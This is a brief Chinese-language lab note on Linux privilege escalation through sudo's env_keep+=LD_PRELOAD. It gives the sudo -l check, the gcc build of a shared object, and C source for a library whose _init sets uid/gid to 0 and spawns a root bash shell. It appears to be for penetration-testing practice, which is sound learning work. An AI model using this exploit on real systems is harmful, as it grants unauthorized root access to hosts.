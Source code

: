 `env_keep+=LD_PRELOAD`是指在使用`sudo`命令时，环境变量`LD_PRELOAD`将保持不变。`LD_PRELOAD`是一个环境变量，它允许用户在程序加载时预先加载指定的共享库。

因此，可以把提权的代码写入共享库中，使用不需要密码的命令预加载这个共享库实现提权。

当前靶机可以执行什么系统命令，sudo环境变量设置是什么

```bash
sudo -l
# env_rest, env_keep+=LD_PRELOAD
# (root) NOPASSWD: /binfile
gcc -fPIC -shared -nostartfiles -o shell.so shell.c
sudo LD_PRELOAD=/tmp/shell.so /binfile
```

```bash
# file: pri.c

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

// filename: shell.c
// define a shared object
void _init() {
	unsetenv("LD_PRELOAD"); # once is enough
	setgid(0);
	setuid(0);
	system("/bin/bash -p");
}
```